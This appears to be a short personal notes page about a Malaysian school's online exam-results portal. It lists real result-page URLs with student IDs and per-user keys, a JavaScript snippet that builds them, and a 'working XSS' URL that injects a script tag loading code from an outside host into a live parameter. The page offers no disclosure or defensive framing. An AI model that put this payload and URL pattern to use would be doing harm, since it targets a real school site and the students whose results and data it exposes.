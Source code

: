 Sample perma-link for Ujian Setara 1, Semester 1

> https://mrsmgemencheh.edu.my/e-keputusan/EbvS4f3wequm4w19g4us7RT4VWE4tsT3t9uT4jK3xpv9t3t7ja7RT4VHtYI5T3t9uEbvS44yuwsum4w17RT4VHtYI5Vp3Y22yThVHtYI5T3t9uEbvS4ae42xt58wzQy8e7ui5b37.asp?idsort=&acx=66&nmk=NG190041,&sem=1&ting=4&thn=2022&uji=1&tjk=Ujian%20Formatif%201&nomaktab2=fb67ff080ff0792c51b5f3fcf4536402acc5bf43

```js
    const NOMAKTAB = 'NG190041'
    const kunci = 'fb67ff080ff0792c51b5f3fcf4536402acc5bf43'
    let ujian = 1
    let semester = 1
    let tingkatan = 4
    let tahun = 2022

    let fetchURL = `https://mrsmgemencheh.edu.my/e-keputusan/EbvS4f3wequm4w19g4us7RT4VWE4tsT3t9uT4jK3xpv9t3t7ja7RT4VHtYI5T3t9uEbvS44yuwsum4w17RT4VHtYI5Vp3Y22yThVHtYI5T3t9uEbvS4ae42xt58wzQy8e7ui5b37.asp?idsort=&acx=66&nmk=${NOMAKTAB},&sem=${semester}&ting=${tingkatan}&thn=${tahun}&uji=${ujian}&tjk=Ujian%20Formatif%20${ujian}&nomaktab2=${kunci}`
```

d20210e46f174598351cf46b5b9d856de869b312
fb67ff080ff0792c51b5f3fcf4536402acc5bf43


Note that the value for the `nomaktab2` parameter changes for every user

https://mrsmgemencheh.edu.my/e-keputusan/EbvS4f3wequm4w19g4us7RT4VWE4tsT3t9uT4jK3xpv9t3t7ja7RT4VHtYI5T3t9uEbvS44yuwsum4w17RT4VHtYI5Vp3Y22yThVHtYI5T3t9uEbvS4ae42xt58wzQy8e7ui5b37.asp?idsort=&acx=66&nmk=NG190015,&sem=1&ting=4&thn=2022&uji=1&tjk=Ujian%20Formatif%201&nomaktab2=d20210e46f174598351cf46b5b9d856de869b312





---

Working XSS by loading external script:

https://mrsmgemencheh.edu.my/e-keputusan/EbvS4f3wequm4w19g4us7RT4VWE4tsT3t9uT4jK3xpv9t3t7ja7RT4VHtYI5T3t9uEbvS44yuwsum4w17RT4VHtYI5Vp3Y22yThVHtYI5T3t9uEbvS4ae42xt58wzQy8e7ui5b37.asp?idsort=&acx=66&nmk=NG190041,&sem=1&ting=4&thn=2022&uji=1&tjk=<script src="https://scrollofice.com/TEST.JS"></script>&nomaktab2=fb67ff080ff0792c51b5f3fcf4536402acc5bf43